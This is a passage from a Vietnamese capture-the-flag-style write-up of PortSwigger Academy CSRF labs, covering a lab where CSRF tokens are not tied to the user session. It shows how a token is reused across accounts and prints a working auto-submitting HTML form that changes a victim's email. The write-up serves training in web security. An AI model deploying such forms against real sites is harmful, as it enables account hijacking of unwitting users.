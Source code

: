 >Cụ thể khi nạn nhân truy cập trang web này, nó tự động submit form update email đến đường dẫn `https://<LAB-DOMAIN>/my-account/change-email` với trường `email` do attacker định sẵn. Khi đó email tài khoản nạn nhân sẽ bị thay đổi: ![image](https://hackmd.io/_uploads/BJrPJotmC.png)


>**Deliver exploit to victim** và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/HJeRCcY7C.png)

# **4. Lab: CSRF where token is not tied to user session**
>Chức năng thay đổi email của lab này dễ bị tấn công bởi CSRF. Nó sử dụng CSRF Token để cố gắng ngăn chặn các cuộc tấn công CSRF nhưng chúng không được tích hợp vào hệ thống xử lý phiên của trang web.
Để giải quyết bài lab, hãy sử dụng máy chủ khai thác của bạn để lưu trữ trang HTML sử dụng cuộc tấn công CSRF để thay đổi địa chỉ email của người xem.
Bạn có hai tài khoản trên ứng dụng mà bạn có thể sử dụng để giúp thiết kế cuộc tấn công của mình. Thông tin xác thực như sau: `wiener:peter` và `carlos:montoya`
![image](https://hackmd.io/_uploads/H1f2TGuBC.png)

>Ứng dụng web này vẫn bị dính CSRF mặc dù có trang bị CSRF token nhưng token này không được lưu vào session của user → CSRF token của user này vẫn có thể dùng cho người khác.

>Cụ thể, khi đăng nhập tài khoản `carlos:montoya`, ta thu thập CSRF token tại form update email: ![image](https://hackmd.io/_uploads/rkyd7st7R.png)

>Đăng nhập sang `wiener:peter`, sử dụng CSRF token vừa trên để update email thì thành công → token này không được lưu vào session của từng user: ![image](https://hackmd.io/_uploads/B1gJNjt7R.png)

>Tận dụng điều đó, ta sẽ tạo payload với CSRF token (chưa từng được sử dụng) được lấy ở tài khoản đang có: ![image](https://hackmd.io/_uploads/Sy5LVsKX0.png)

>Payload sẽ là 1 form update email với 2 trường email và csrf, trong đó csrf sẽ là giá trị CSRF token vừa lấy được ở bước trên:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5100fb04df23e1810908c200bb0030.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked123&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="5o6sadjmyHTsIAWaYOu9rEP6WIs9R0Si" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![image](https://hackmd.io/_uploads/Sku1SjYXR.png)

>**Deliver exploit to victim** và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/H1wZSiKm0.png)
